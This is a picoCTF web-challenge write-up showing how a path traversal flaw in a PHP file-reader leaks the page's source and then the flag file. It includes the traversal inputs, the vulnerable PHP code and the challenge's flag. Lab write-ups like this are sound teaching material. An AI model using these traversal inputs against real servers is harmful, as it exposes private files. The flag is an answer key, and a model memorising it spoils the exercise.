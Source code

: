 This problem is on the easier side. If we type in any random file and hit enter, we see that it redirects us to the `/read.php` page. 

It doesn't matter if the file is valid or gibberish because the redirect link is always `/read.php`. This means that it must be processing our input live.

Thus entering something like:

    ../../../../usr/share/nginx/html/read.php
will provide us the source code for read.php file:

    $firstChar = $_POST['filename'][0];
    if( strcmp($firstChar, '/') == 0 ){
    echo "Not Authorized";}
    else {
    if (file_exists($_POST['filename'])) {
    $file = fopen($_POST['filename'], 'r');
    while(! feof($file)){
    $line = fgets($file);
    echo $line. "
    ";}
    fclose($file);
    } else {
    echo "File does not exist";}}?> 

The filter is that any filename starting with a `/` is unauthorised. Thus, we can do directory transversal using dots first. To get the flag from the root directory:

    ../../../../../flag.txt

flag: `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`
